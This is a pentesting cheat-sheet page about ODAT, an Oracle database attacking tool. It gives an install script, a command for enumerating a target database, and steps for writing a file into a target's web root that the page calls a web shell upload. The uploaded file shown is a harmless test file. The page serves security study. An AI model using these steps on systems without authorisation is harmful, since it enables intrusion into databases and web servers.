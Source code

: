 ```yaml
---
title: odat - Oracle Database Attacking Tool
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - enumeration
  - snmp
  - port 161
  - tools
---
```


# odat - Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

## Installation

This script installs the needed packages and tools: 

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

Check installation with:

```shell-session
./odat.py -h
```


## Basic usage

We can use the `odat.py`  from [ODAT](odat.md) tool to retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations,...

```shell-session
/odat.py all -s $ip
```


**Upload a web shell to the target**: 

```shell-session
# Upload a web shell to the target. This requires the server to run a web server, and we need to know the exact location of the root directory for the webserver.

## 1. Creating a non suspicious web shell 
echo "Oracle File Upload Test" > testing.txt

## 2. Uploading the shell to linux (/var/www/html) or windows (C:\\inetpub\\wwwroot):
./odat.py utlfile -s $ip -d XE -U <user> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

## 3. Test if the file upload approach worked with curl, or visit via browser.
curl -X GET http://$ip/testing.txt
```
